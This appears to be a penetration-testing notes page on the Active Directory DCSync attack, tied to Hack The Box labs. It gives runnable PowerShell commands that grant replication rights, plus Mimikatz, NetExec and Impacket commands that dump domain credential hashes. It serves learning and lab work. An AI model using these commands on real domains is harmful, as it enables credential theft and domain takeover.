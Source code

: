 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## TL;DR

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**&#x72;ights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Attack

### Enumerate rights.

{% code overflow="wrap" %}
```powershell
# native, requires an elevated command prompt
dsacls "DC=domain,DC=local"
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```
{% endcode %}

### Assign DCSync rights

{% tabs %}
{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}
{% endtab %}

{% tab title="Manually" %}
{% code overflow="wrap" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endcode %}
{% endtab %}

{% tab title="DCSync.py" %}
{% code overflow="wrap" %}
```bash
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}
{% endtab %}
{% endtabs %}

Manual way explained [here](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md).

### Perform the DCSync attack.

{% tabs %}
{% tab title="Mimikatz" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# or
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```
{% endtab %}

{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
{% code overflow="wrap" %}
```bash
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of a DCSync attack using `DCSync.py` -> `secretsdump.py` check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting), or using NetExec [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack).

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="dsacls" %}
{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151(v=ws.11)" %}
{% endtab %}
{% endtabs %}

